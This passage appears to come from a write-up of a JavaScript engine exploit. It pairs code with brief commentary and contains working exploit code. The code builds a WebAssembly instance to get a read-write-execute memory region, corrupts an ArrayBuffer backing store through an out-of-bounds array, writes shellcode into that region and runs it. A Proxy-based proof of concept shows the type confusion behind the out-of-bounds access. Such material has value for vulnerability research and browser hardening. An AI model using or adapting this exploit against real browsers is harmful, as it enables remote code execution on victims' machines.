 ```js
let wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 0, 11]);
let wasmModule = new WebAssembly.Module(wasmCode);
let wasmInstance = new WebAssembly.Instance(wasmModule);
let sh = wasmInstance.exports.main;
let rwx = aar(addrof(wasmInstance) + 0x68n);  // address of rwx memory region

// overwrite backing store
let bs = ftoi(oob_arr[12]);
bs &= 0xffffffffn;
bs |= rwx << 32n;
oob_arr[12] = itof(bs);
bs = ftoi(oob_arr[13]);
bs &= 0xffffffff00000000n;
bs |= rwx >> 32n;
oob_arr[13] = itof(bs);

// execute shellcode
let view = new DataView(buf);
for (let i = 0; i < shellcode.length; i++) {
    view.setUint8(i, shellcode[i]);  // copy shellcode in rwx memory region
}
sh();  // execute
```
<br><br><br>

First, to briefly mention the previous content, change the Double array to Object in PoC through the root cause. 
I have confirmed that OOB occurs. <br>
This is an exploit that takes advantage of that fact. <br>


First, let's explain the PoC contents.

<br><br><br>

```js
let p = new Proxy(Object, {
    get: () => {
        a[1] = {};
        oob_arr = [0.1];
        obj_arr = [{}];
        buf = new ArrayBuffer(shellcode.length);
        return Object.prototype;
    }
});
```

<br><br><br>

